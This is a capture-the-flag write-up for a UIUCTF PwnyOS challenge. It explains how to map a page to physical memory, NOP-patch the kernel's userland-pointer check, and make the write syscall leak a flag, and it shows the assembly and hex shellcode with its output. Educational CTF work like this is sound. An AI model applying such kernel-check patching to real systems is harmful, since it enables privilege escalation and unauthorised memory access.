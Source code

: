 ### Part 2

<img width="470" alt="Screenshot 2021-08-08 at 22 05 16" src="https://user-images.githubusercontent.com/62653826/128645671-e7daa091-1452-4f86-b7a0-24ba4f4ba451.png">

The other flag is in physical memory at 0x55550000, but not in kernel memory. 0x55550000 is not a 4 MiB aligned address, so we can't just make a virtual memory page map to 0x55550000, but we can map it to 0x55400000, and then offset by 0x150000. The issue is that the memory I/O qemu driver acts differently in user mode(ring 3) and kernel mode(ring 0). We need CPL/ring 0 to get the flag - that is, we need to read physical memory address 0x55550000 from CPL 0. One path would be to use our new access to kernel data to overwrite some functions with shellcode, but there is a much easier way to get this done.

Think - how can we get the kernel to read some data for us, without exploiting it much?

That's right - the write syscall. If we get the kernel to write out data mapped to physical address 0x55550000, it'll get read from ring 0, doing the job for us and printing the flag from stdout. Issue is, without remapping very important memory, the kernel's check for userland pointers will do us in the dust(it ensures that pointer >> 0x16 == 0x20, so the pointer must be around 0x8000000). However, it does this through running a function, and then a jz to a function that will deny the user. 

**Exploitation path**
* We can map a page to the needed physical memory
* Nop the function call(the jz is only 2 bytes), making the kernel unable to reject any write calls
*  Write the memory corresponding to 0x55550000 to fd 0. 

I decided to map 0x09000000 to 0x55400000, so reading address 0x09150000 will read the flag.
```assembly
mov eax, 13
int 0x80
mov esi, eax
mov dword ptr [esi], 0x0050d003
mov dword ptr [esi+4], 0x004000e7
mov dword ptr [esi+128], 0x020000e7
mov dword ptr [esi+144], 0x554000e7
mov eax, 16
int 0x80
mov ebx, eax
mov eax, 30
int 0x80
mov esi, 0x401a99
mov word ptr [esi], 0x9090
xor ebx, ebx
mov ecx, 0x9000000
add ecx, 0x150000
mov edx, 0x80
mov eax, 5
int 0x80
```

```
/ $ binexec
binexec
Welcome to binexec!
Type some shellcode in hex and I'll run it!

Type the word 'done' and press enter when you are ready
Type 'exit' and press enter to quit the program
Address where I'm gonna run your code: 0804E0A0
B80D000000CD8089C6C70603D05000C74604E7004000C78680000000E7000002C78690000000E7004055B810000000CD8089C3B81E000000CD80BE991A400066C706909031DBB90000000981C100001500BA80000000B805000000CD80done
B80D000000CD8089C6C70603D05000C74604E7004000C78680000000E7000002C78690000000E7004055B810000000CD8089C3B81E000000CD80BE991A400066C706909031DBB90000000981C100001500BA80000000B805000000CD80done
Running...
uiuctf{y0u_h4v3_0ffic1ally_be4t3n_PwnyOS_1-come_b4ck_n3xt_y34r_f0r_PwnyOS-2}eax: 0000004C
ebx: 00000000
ecx: 09150000
```